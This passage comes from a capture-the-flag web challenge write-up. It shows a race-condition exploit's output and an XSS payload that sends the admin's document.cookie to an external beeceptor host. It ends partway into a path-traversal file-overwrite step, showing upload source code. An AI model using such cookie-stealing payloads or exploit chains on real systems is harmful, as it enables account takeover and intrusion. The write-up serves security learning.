     > 
    > if __name__ == "__main__":
    >     asyncio.run(main())
    > ```
   Run the race condition exploit and check the Email application:
   ```
   ➜ python3 exploit.py 
   ['{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n', '{"message":"Profile updated!"}\n']
   ```

   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/4d738f05-8374-4800-81ba-e9aa168ef6ac)

   Email has been verified:
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/2c3f2095-1769-4faf-9c18-bad98029af12)

   Now our user has been verified with email `test@apexsurvive.htb` and has an access to Add New Products
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/f2c80011-2b13-4a4f-9a58-d32e5cb3f1e0)
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/6c8d0c2c-6661-44bf-8c2f-1902ceb0f314)

2. XSS In Product Manual
   *Notes: This is an unintended solution levearging XSS in the product page*
   In Add New Product, Product Manual is reflected inside `<script>` tag and backtick variable declaration
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/7110d064-5edd-4ce8-8b0c-9681d1d93d2a)
   This can leads to XSS with evaluate the Javascript inside the backtick with this payload `${javascript code here}`. Then we can steal the admin cookie to perform privilege escalation.
   Payload:
   ```
   ${window.location.href='https://h3h3h3.free.beeceptor.com/?q='+document.cookie}
   ```
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/952e751d-b316-4738-90ca-c9b902328a9a)
   Then report the product to admin and get the cookie
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/2080e069-529d-4a31-bd06-0426f089280b)

3. Path Traversal leads to overwrite Python files
   *Notes: This is an unintended solution levearging Race Condition*
   Now we in Admin user, we can Add New Contract with upload a PDF Contract files.
   
   ![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/39812b6b-66f3-4633-88c1-c6d5c7504b80)

   This code below is a source code for upload PDF Contract files:
   > /challenge/application/blueprints/api.py
   > ```py
   > @api.route('/addContract', methods=['POST'])
    > @isAuthenticated
    > @isVerified
    > @isInternal
    > @isAdmin
    > @antiCSRF
    > @sanitizeInput
    > def addContract(decodedToken):
    >     name = request.form.get('name', '')
    > 
    >     uploadedFile = request.files['file']
    > 
    >     if not uploadedFile or not name:
    >         return response('All files required!')